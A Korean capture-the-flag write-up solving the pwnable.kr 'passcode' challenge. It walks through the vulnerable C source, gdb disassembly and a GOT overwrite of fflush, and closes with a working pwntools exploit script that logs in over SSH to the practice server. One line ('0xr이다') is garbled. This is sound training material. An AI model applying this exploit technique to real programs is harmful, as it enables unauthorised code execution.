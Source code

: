 ```yaml
---
sticker: emoji//2757
---
```

![[{E8AA1051-C408-4E2D-AB4E-2E9498C60C29}.png]]

컴파일러 warning이 있었지만 무시하고 에러 없이 컴파일했다고 한다.

![[{5DFAC315-32C8-4071-AAE8-0274378F4397}.png]]

passcode.c를 열어보자.

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
 int passcode1;
 int passcode2;

 printf("enter passcode1 : ");
 scanf("%d", passcode1);
 fflush(stdin);

 // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
 printf("enter passcode2 : ");
        scanf("%d", passcode2);

 printf("checking...\n");
 if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
  exit(0);
        }
}

void welcome(){
 char name[100];
 printf("enter you name : ");
 scanf("%100s", name);
 printf("Welcome %s!\n", name);
}

int main(){
 printf("Toddler's Secure Login System 1.0 beta.\n");

 welcome();
 login();

 // something after login...
 printf("Now I can safely trust you that you have credential :)\n");
 return 0;
}
```

passcode1과 passcode2를 알려주고 있다.
일단 passcode 파일을 실행했다.
name을 입력하고 passcode1을 입력했는데, segmentation fault 에러가 발생하고 종료됐다.

![[{905D3A93-46FC-46F2-9E71-54AF077A7A6E}.png]]

scanf에서 passcode를 받을 때 '&' 문자로 주소를 정해줘야 하는데 빠져 있어서 생기는 에러인 것 같다.


### gcc

무슨 warning이 생겼던 건지 passcode.c 파일을 한번 컴파일해보자.

![[{99BA4F09-1D44-4363-B0CB-4DDCC065060B}.png]]

scanf 함수가 결과를 저장할 passcode1과 passcode2의 주소를 주는 것 대신 그냥 값을 패스하고 있다.

welcome 함수의 scanf에서 warning이 안 뜨는 이유는, 배열의 이름은 base address를 가리키는 포인터로 취급되기 때문이다.


### disas welcome

welcome 함수를 disassemble해보자.

![[{6E701AD5-1C56-4192-A913-61C4695F692A}.png]]
```c
void welcome(){
 char name[100];
 printf("enter you name : ");
 scanf("%100s", name);
 printf("Welcome %s!\n", name);
}
```

welcome+33부터 welcome+48까지, scanf 함수에서 벌어지는 일은 다음과 같다.
1. mov $0x80487cb, %eax
	- 문자열 포맷인 `%100s`의 주소를 레지스터 eax에 이동
2. *lea -0x70(%ebp), %edx
	- -0x70(%ebp)는 ebp 레지스터의 값에서 0x70을 뺀 주소를 계산해서 edx에 저장
	- `name` 문자열 배열의 시작 주소를 나타냄

`$ebp-0x70`이 `name`의 주소가 맞는지 확인해보자.

scanf 함수가 호출된 직후인 0x00804863e에 breakpoint를 걸고 실행한다.

![[{B8DED19F-32DB-4627-872C-AF77F7376A85}.png]]

`(gdb) x/1s $ebp-0x70`
맞았다!


### disas login

이제 passcode1을 찾아보자.

![[{34DEC3AA-393A-4119-A6EF-6052AFD3FA7A}.png]]
![[{64911B97-4FC1-4F67-B50C-757F6BB468D1}.png]]
```c
void login(){
 int passcode1;
 int passcode2;

 printf("enter passcode1 : ");
 scanf("%d", passcode1);
 fflush(stdin);

 // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
 printf("enter passcode2 : ");
        scanf("%d", passcode2);

 printf("checking...\n");
 if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
  exit(0);
        }
}
```

scanf 함수를 찾으면 passcode1과 passcode2의 주소도 찾을 수 있다.
```
0x0804857c <+24>: mov    -0x10(%ebp),%edx
[...]
0x080485aa <+70>: mov    -0xc(%ebp),%edx
```

위에서 찾은 name의 주소는 `$ebp-0x70`이었는데, passcode1의 주소는 `$ebp-0x10`이다.
거리가 0x60=96만큼 차이나므로, name의 크기인 100바이트보다 작다. name 배열 끝 4바이트가 passcode1의 주소와 겹친다는 의미이다.
따라서 name에 무슨 입력값을 넣느냐에 따라 4바이트만큼 passcode1의 초기값을 덮어씌울 수 있다.


### PLT & GOT
참고: https://jiravvit.tistory.com/entry/PLT%EC%99%80-GOT
- PLT
	- 외부 라이브러리 함수를 사용할 수 있도록 주소를 연결해주는 테이블
- GOT
	- PLT에서 호출하는 resolve 함수를 통해 구한, 라이브러리 함수의 절대 주소가 저장되어 있는 테이블
- Dynamic Link 방식으로 컴파일된 파일은 프로그램 내부에 라이브러리가 존재하지 않기 때문에, 외부 라이브리로 링크하는 과정이 필요함

이를 이용해 `login()` 안에 있는 함수 중 하나를 골라 그 함수의 PLT를 타고 도착한 GOT 테이블을 `system(/bin/cat flag)`로 덮어쓰면 된다.

name 끝 4바이트에 fflush의 GOT 주소를 입력해서 실행시킨다.
이때 fflush 함수의 GOT를 `system(/bin/cat flag)`로 바꿔서, 실행될 때 fflush 대신 system을 실행하게 해보자.

순서는 다음과 같다.
1. name을 입력할 때 마지막 4바이트에 `fflush` 함수의 GOT 테이블의 주소를 입력한다.
2. passcode1는 `fflush` 함수의 GOT가 된다.
3. passcode1을 입력할 때 `system` 함수의 시작 주소를 입력한다.
4. 이후 `fflush` 함수가 실행될 때 `system` 함수가 대신 실행된다.


### disas fflush

`fflush`의 GOT 테이블 주소를 찾아보자.

![[{3D5CFAB0-FA80-456D-968D-29E459859D79}.png]]

`0x08048430 <+0>: jmp *0x804a004`에서 0x804a004로 jmp하는데, 이곳이 `fflush` 함수의 GOT이다.


### system(/bin/cat flag)

`system`의 시작 주소는 `login` 함수를 보면 알 수 있다.

![[{60A020CD-A429-41D7-9678-7542D3299F93}.png]]

0xr이다.
하지만 passcode1을 입력받을 때 정수형으로 받기 때문에, 10진수로 바꿔서 보내야 한다.
0x080485e3 = 134514147


### 해결

```python
from pwn import *

fflush_got = 0x804a004

payload = b'A'*96
payload += p32(fflush_got)   # fflush_got을 32비트 리틀 엔디안으로 변환

payload2 = '134514147'

# p = process('./passcode')
s = ssh('passcode', 'pwnable.kr', password='guest', port=2222)
p = s.process('/home/passcode/passcode')

p.sendline(payload)
p.sendline(payload2)

p.interactive()
```

![[{71CE71E2-DF0E-4503-9957-B1346E0D48B4}.png]]

🚩